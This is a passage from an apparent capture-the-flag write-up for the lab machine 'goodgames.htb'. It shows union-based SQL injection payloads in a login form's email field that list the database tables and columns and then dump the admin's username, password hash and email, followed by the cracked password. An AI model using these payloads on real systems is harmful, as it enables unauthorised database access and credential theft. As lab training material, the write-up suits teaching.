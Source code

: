 Server Response
    
    <h2 class="h4">Welcome blog blog_comments user </h2>

There are 2 DBs. Now you have to see how many columns the main DB is made up of.

Payload:

    email=' union select 1,2,3,concat(table_name, " ") FROM information_schema.tables WHERE table_schema="main"-- -;&password=asd

Server Response
    
    <h2 class="h4">Welcome information_schema main </h2>

The _user_ table is very interesting

Payload:

    email=' union select 1,2,3,concat(column_name, " ") FROM information_schema.columns WHERE table_name="user"-- -;&password=asd

Server Response
    
    <h2 class="h4">Welcome email id name password </h2>

Let's go and see the values !

Payload:

    email=' union select 1,2,3,concat(id, ": ", name, " ", password, " ", email) FROM user-- -;&password=asd

Server Response

    <h2 class="h4">
        Welcome 1: admin 2b22337f218b2d82dfc3b6f77e7cb8ec admin@goodgames.htb
    </h2>

We have to crack the password

![passwd](images/passwd.png)

Now i have all informations about _admin_ (`username = admin, passwd = superadministrator`), so i logged like it ! 
